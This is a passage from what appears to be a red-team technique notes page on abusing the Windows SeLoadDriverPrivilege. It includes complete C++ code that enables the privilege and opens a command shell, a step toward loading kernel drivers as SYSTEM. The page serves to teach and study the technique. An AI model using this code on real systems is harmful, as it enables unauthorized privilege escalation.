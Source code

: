 ![](../../.gitbook/assets/screenshot-from-2018-12-17-17-42-47.png)

## SeLoadDriverPrivilege

A very dangerous privilege to assign to any user - it allows the user to load kernel drivers and execute code with kernel privilges aka `NT\System`. See how `offense\spotless` user has this privilege:

![](../../.gitbook/assets/screenshot-from-2018-12-17-22-40-30.png)

`Whoami /priv` shows the privilege is disabled by default:

![](../../.gitbook/assets/screenshot-from-2018-12-17-21-59-15.png)

However, the below code allows enabling that privilege fairly easily:

{% code title="privileges.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>

int main()
{
    TOKEN_PRIVILEGES tp;
    LUID luid;
    bool bEnablePrivilege(true);
    HANDLE hToken(NULL);
    OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

    if (!LookupPrivilegeValue(
        NULL,            // lookup privilege on local system
        L"SeLoadDriverPrivilege",   // privilege to lookup 
        &luid))        // receives LUID of privilege
    {
        printf("LookupPrivilegeValue error: %un", GetLastError());
        return FALSE;
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;

    if (bEnablePrivilege) {
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    }

    // Enable the privilege or disable all privileges.
    if (!AdjustTokenPrivileges(
        hToken,
        FALSE,
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        (PTOKEN_PRIVILEGES)NULL,
        (PDWORD)NULL))
    {
        printf("AdjustTokenPrivileges error: %x", GetLastError());
        return FALSE;
    }

    system("cmd");
    return 0;
}
```
{% endcode %}

